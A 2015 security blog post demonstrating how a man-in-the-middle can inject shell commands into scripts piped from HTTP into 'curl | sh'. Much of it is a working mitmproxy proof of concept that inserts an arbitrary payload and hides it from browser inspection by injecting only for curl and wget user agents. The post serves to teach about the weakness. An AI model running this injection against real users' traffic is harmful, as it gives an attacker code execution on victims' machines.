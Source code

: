 ```yaml
---
date: 2015-06-14
title:  Owning "curl | sh" for Fun and Profit
categories:
  - security
---
```


If you're a web developer, you've probably seen sites asking you to install their software package like so:

```
curl -s http://example.com/install.sh | sh
```


There are a number of subtle problems with piping a HTTP response into the shell (for example, if your connection is
interrupted part-way through the script, the script may end up partially executed,
[as written about here](https://www.seancassidy.me/dont-pipe-to-your-shell.html)),
but let's look at the most obvious problem: the ease with which a man-in-the-middle can modify code you are about to
directly execute.

Users piping unencrypted web traffic into the shell is about as easy it gets for me as an attacker, because:
- shell scripts are easily identified as such, and so are easy to target
- shell scripts are written in plaintext, so it's straightforward to inject our own code into it
- if they look at it at all, users are likely to inspect the code with a separate tool than they use to download and
  execute it (the browser versus curl or wget), and I can conditionally respond to this.

I wrote a proof-of-concept script, using [mitmproxy](https://mitmproxy.org/index.html), that can detect scripts
downloaded using this pattern and inject shell commands of my choosing.

Let's write a simple [mitmproxy script](https://mitmproxy.org/doc/scripting/inlinescripts.html) to do this.

{{< highlight python >}}
#!/usr/bin/python

from libmproxy.protocol.http import decoded


def start(context, argv):
    if len(argv) != 2:
        raise ValueError('Usage: -s "inject_shell.py payload.sh"')
    context.payload = get_payload(argv[1])


def get_payload(payload_file):
    """
    Read and return the payload file as a string
    """
    f = open(payload_file, 'r')
    lines = f.readlines()
    f.close()
    return '\n'.join(lines)

def is_shell_script(resp):
    """
    Returns true if the request is a possible shell script
    """
    shell_content_type = False
    content_type = resp.headers.get_first("content-type", "")
    # if content-type is set, should be text/*
    if content_type != "" and not content_type.startswith('text/'):
        return False
    # and should start with shebang
    if not resp.content.startswith('#!'):
        return False
    return True

def response(context, flow):
    resp = flow.response
    req = flow.request
    with decoded(resp):
        if is_shell_script(resp):
            flow.response.content = flow.response.content.replace(
                '\n',
                '\n' + context.payload + '\n',
                1)
{{< / highlight >}}

When a request is made through mitmproxy, this will modify any response that looks like a shell script to contain our
payload. Let's modify this so we only add the payload if the file is downloaded via curl or wget, so that a user
inspecting the code in the browser doesn't see what we've injected:

{{< highlight python >}}
def is_cli_tool(req):
    """
    Returns true if the user-agent looks like curl or wget
    """
    user_agent = req.headers.get_first("User-Agent", "")
    if user_agent.startswith('curl'):
        return True
    if user_agent.startswith('Wget'):
        return True
    return False
def response(context, flow):
  # ...
  with decoded(resp):
      if is_shell_script(resp) and is_cli_tool(req):
      # ...
{{< / highlight >}}


To test it out, run mitmproxy with this script in [regular](http://mitmproxy.org/doc/modes.html) mode:


```
mitmproxy -s "inject_shell.py payload.sh
```

Configure your browser to proxy HTTP connections through `localhost:8080`, and take a look at a shell script over HTTP
([like any of the http:// links here](https://www.google.com/webhp?q=filetype:sh+inurl:http)). Looks fine, right?

Now try it via curl:

```
curl -x localhost:8080 http://example.com/install.sh
```

You should now see the payload injected into the response. Same with wget:

```
wget -qO- http://example.com/install.sh
```

Security is fun. [Source is up on github here](https://github.com/chrishepner/sh-mitm).